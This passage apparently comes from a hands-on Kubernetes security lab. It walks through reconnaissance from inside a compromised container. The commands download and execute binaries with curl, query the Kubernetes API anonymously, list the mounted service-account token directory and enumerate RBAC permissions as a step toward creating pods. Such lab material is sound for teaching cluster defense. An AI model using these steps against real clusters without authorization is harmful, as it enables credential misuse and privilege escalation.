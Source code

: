 That's not getting us anywhere. Let's follow-up on that idea that it's maybe a container:

```console
cd /tmp; curl -L -o amicontained https://github.com/genuinetools/amicontained/releases/download/v0.4.7/amicontained-linux-amd64; chmod 555 amicontained; ./amicontained
```

This tells us several things:

* We are in a container, and it's managed by Kubernetes
* Some security features are not in use (userns)
* The host seems to be running the default Docker seccomp profile, restricting some key kernel calls
* We don't have any exciting capabilities. <a href="http://man7.org/linux/man-pages/man7/capabilities.7.html" target="_blank">Click for more capabilities info.</a>

Now let's inspect our Kubernetes environment:

```console
env | grep -i kube
```
```console
curl -k https://${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT}/version
```
```console
ls /var/run/secrets/kubernetes.io/serviceaccount
```

We have typical Kubernetes-related environment variables defined, and we have anonymous access to some parts of the Kubernetes API. We can see that the Kubernetes version is modern and supported -- but there's still hope if the Kubernetes security configuration is sloppy. Let's check for that next:

```console
export PATH=/tmp:$PATH
cd /tmp; curl -LO https://dl.k8s.io/release/v1.22.0/bin/linux/amd64/kubectl; chmod 555 kubectl
```
```console
kubectl get all
```
```console
kubectl get all -A
```
```console
kubectl get namespaces
```

By default, kubectl will attempt to use the default service account in `/var/run/secrets/kubernetes.io/serviceaccount` -- and it looks like this one has some API access. Note that we can't see anything outside our namespace, though.

Let's inspect what all we __can__ do:

```console
kubectl auth can-i --list
```

Can we create pods in this namespace?

```console
kubectl auth can-i create pods
```
